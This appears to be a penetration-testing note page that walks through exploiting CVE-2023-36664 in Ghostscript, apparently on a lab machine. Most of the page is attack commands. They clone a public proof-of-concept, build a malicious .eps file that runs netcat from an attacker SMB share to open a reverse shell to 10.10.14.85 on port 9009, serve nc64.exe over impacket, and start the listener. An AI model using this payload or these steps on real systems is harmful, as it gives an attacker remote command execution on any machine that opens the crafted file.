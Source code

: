# CVE-2023-36664

Vulnerability disclosed in Ghostscript prior to version 10.01.2 leads to code execution.

> Artifex Ghostscript through 10.01.2 mishandles permission validation for pipe devices (with the %pipe% prefix or the | pipe character prefix).

The exploitation can occur upon opening a PS or EPS file and can allow code execution caused by Ghostscript mishandling permission validation for pipe devices.



## PoC

{% embed url="https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection" %}

<figure><img src="../../.gitbook/assets/image (239).png" alt="" width="563"><figcaption></figcaption></figure>

The schema above will be the strategy that we will use for exploitation phase.



### Clone the CVE PoC repo

```bash
git clone https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection
```



### Build .eps payload with RevShell

We will use the python script to generate a .eps file that, when opened , it will create a connection to the attacker machine using NetCat in a SMB Shares (hosted from attacker machine).

{% code overflow="wrap" %}
```bash
python3 CVE_2023_36664_exploit.py --inject --payload 'cmd.exe /c \\\\10.10.14.85\\smbFolder\\nc64.exe -e cmd 10.10.14.85 9009' --filename payload.eps
```
{% endcode %}



### Starting a SMB Server with nc64.exe inside

Now, we're starting a SMB Server with Impacket tool with NetCat (nc64.exe)

```bash
# download the nc64.exe
wget https://github.com/vinsworldcom/NetCat64/releases/download/1.11.6.4/nc64.exe

# start smb server in the current directory
impacket-smbserver smbFolder $(pwd) -smb2support
```



### Starting listener on Kali

```
nc -lnvp 9009
```

### Exploitation

When the .eps file will execute, a connection in a NetCat listener will appair.
